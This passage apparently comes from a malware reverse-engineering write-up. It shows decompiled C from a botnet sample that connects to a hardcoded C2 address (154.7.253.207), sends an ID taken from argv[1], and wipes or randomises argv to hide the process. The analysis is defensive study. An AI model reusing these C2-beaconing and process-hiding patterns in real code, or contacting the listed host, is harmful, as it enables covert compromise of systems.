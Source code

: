 ```c
void mw_setup_c2_connection(void)

{
  undefined2 *puVar1;
  
  mw_decrypt_with_key(1); // 0x520 = 1312
  sockaddr_in_00020e48.sin_addr.s_addr = mw_inet_aton_w("154.7.253.207");
  puVar1 = (undefined2 *)mw_get_table_entry(1,0);
  sockaddr_in_00020e48.sin_port._1_1_ = (undefined1)((ushort)*puVar1 >> 8);
  sockaddr_in_00020e48.sin_port._0_1_ = (undefined1)*puVar1;
  mw_encrypt_with_key(1);
  return;
}
```

#### Hiding `argv[1]`

`argv[1]` (the first command line argument) is backed up for later use and then cleared. Based on the surrounding code it is likely a unique ID which is sent to the C2 server later.

```c
undefined4 mw_main(int param_1,undefined4 *param_2)

{
...
  mw_memset_zero(mw_id,0x20);
  if ((param_1 == 2) && (iVar3 = mw_strlen((char *)param_2[1]), iVar3 < 0x20)) {
    mw_strcpy(mw_id,param_2[1]);
    pcVar8 = (char *)param_2[1];
    iVar3 = mw_strlen(pcVar8);
    mw_memset_zero(pcVar8,iVar3);
  }
...
            if ((DAT_00020b78 == 0xffffffff) &&
               (uVar2 = mw_socket(2,1,0), DAT_00020b78 = uVar2, uVar2 != 0xffffffff)) {
...                                 
              mw_connect(DAT_00020b78,&sockaddr_in_00020e48,0x10);
...
                mw_send(DAT_00020b78,mw_id,(char)local_26,0x4000);
...
```

#### Hiding `argv[0]`

`argv[0]` (the program name) is overwritten by a random generated string.

```c
undefined4 mw_main(int param_1,undefined4 *param_2)

{
...
  uVar2 = mw_get_prng();
  iVar3 = mw_strlen((char *)*param_2);
  iVar4 = mw_strlen((char *)*param_2);
  iVar3 = mw_unsigned_modulo(uVar2,0x14 - iVar3);
  mw_xorshift128_str(auStack_5c,iVar3 + iVar4);
  iVar9 = 0;
  uVar5 = *param_2;
  auStack_5c[iVar3 + iVar4] = 0;
  mw_strcpy(uVar5,auStack_5c);
  mw_memset_zero(auStack_5c,0x20);
...
```
